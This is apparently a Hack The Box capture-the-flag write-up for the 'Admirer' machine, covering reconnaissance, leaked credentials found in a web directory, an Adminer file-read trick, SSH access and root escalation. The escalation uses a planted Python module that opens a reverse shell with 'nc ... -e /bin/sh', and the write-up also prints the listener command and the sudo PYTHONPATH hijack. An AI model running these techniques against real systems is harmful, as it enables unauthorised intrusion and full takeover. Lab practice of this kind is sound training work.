




Admirer - TyPx0oN
- Machine Name is Admirer
- This is Easy Box and IP address is 10.10.10.187
Nmap Scan
# nmap -sSV -O -A -T4 10.10.10.187
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 22:34 +0630
Nmap scan report for 10.10.10.187
Host is up (0.97s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey:
| 2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
| 256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_ 256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/4%OT=21%CT=1%CU=34680%PV=Y%DS=2%DC=T%G=Y%TM=5EB03D5F
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=8)OPS(
OS:O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST11
OS:NW7%O6=M54BST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 111/tcp)
HOP RTT ADDRESS
1 776.78 ms 10.10.16.1
2 371.61 ms 10.10.10.187
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.23 seconds
Web
As Nmap Result Show port 21(FTP), port 22 (ssh) and port 80(apache httpd) are open
I type this ip address in browser , I saw this webpage
I found nothing in this webpage,So I try with dirbuster
I found robots.txt file with Status Code 200
-
In this robots.txt file
# cat robots.txt
User-agent: *
# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
Disallow: /admin-dir
This dir show 403 Forbidden Error
In this time , I use gobuster to bruteforce directory content.
# gobuster -u http://10.10.10.187/admin-dir -w /root/htb/admirer/common.txt ===================================================== Gobuster v3.0.1 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) ===================================================== [+] Mode : dir [+] Url/Domain : http://10.10.10.187/admin-dir/ [+] Threads : 10 [+] Wordlist : /root/htb/admirer/common.txt [+] Status codes : 200,204,301,302,307,403 [+] Timeout : 10s ===================================================== 2020/05/06 20:02:13 Starting gobuster ===================================================== /contact.txt (Status: 200) /credentials.txt (Status: 200) ===================================================== 2020/05/06 20:10:25 Finished =====================================================

# cat contact.txt
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb
##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb
# Amy
Email: a.bialik@admirer.htb
# Leonard
Email: l.galecki@admirer.htb
#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb
# Bernadette
Email: b.rauch@admirer.htb
# cat credentials.txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P
[FTP account]
ftpuser
%n?4Wz}R$tTF7
[Wordpress account]
admin
w0rdpr3ss01!
FTP
- In this credentials.txt file , I found ftpusername and password
- I try to login with this username and password , It's work
- I found 2 files in this ftp , I download this files into my machines
 - I analyze this dump.sql file. The dump was really interesting. I only got the MariaDB version and information about pictures on thehome page
- I got one tar.gz file , I extract this file and I got some files including index.php, utility-scripts , w4ld0s_s3cr3t_d1r
# tar -xzvf html.tar.gz && ls assets images robots.txt w4ld0s_s3cr3t_d1r index.php utility-scripts - I found database credentials in index.php but but nmap scan didn't reveal any databse port (like 3306 for example) It is bad
I found few more php files in the utility-scripts. admin-task.php seemed to be the way to gain access to the server.
- In This files , I found database username and password , But I dont'know what should i do
Exploitaton
In this time , My Friend told me adminer.php file is locate in this server find this
After 5mins finding, I found this adminer.php file
In This Time I found one vulnerabality in adminer
Vulnerability in Adminer
Basically all I had to do was to set a mysql-server on my machine, create a database, create a table with a single column, login to my database on the victim’s Adminer and from there I could dump any local file.
$ create database exploit; use exploit; create table dmp(content varchar(5000));After Dumping I got some credentials waldo was one of them. I tried to connect with ssh with this username and password
I use this username waldo and password to login with ssh
It is work
Finally I got User
Privileges Escalation
I'm now logged as waldo and next step is to get root, First I look with sudo -l command
that user waldo can excute as root /opt/scripts/admin_tasks.sh scriptbackup_web() { if [ "$EUID" -eq 0 ] then echo "Running backup script in the background, it might take a while..." /opt/scripts/backup.py & else echo "Insufficient privileges to perform the selected operation." fi }This Part of these script is calling python script in the same directory- Analyze this python script
cat /opt/scripts/backup.py
#!/usr/bin/python3
from shutil import make_archive
src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
In this time my friend give me one link and he told after read this article you will know what should you do
Privileges Escalation with Python Library HijackingI need to create my own shutil.py
In Victim Machine
# cat shutil.py
import os
def make_archive(a, b, c):
os.system('nc yourip port -e "/bin/sh"')
In My Machine
$ nc -lvnp 7777
Victim Machine
$ sudo PYTHONPATH=/tmp/test /opt/scripts/admin_tasks.sh
Choose no.6 option In your nc opening tab got connection as root from victim machine
Finally Owned This Machine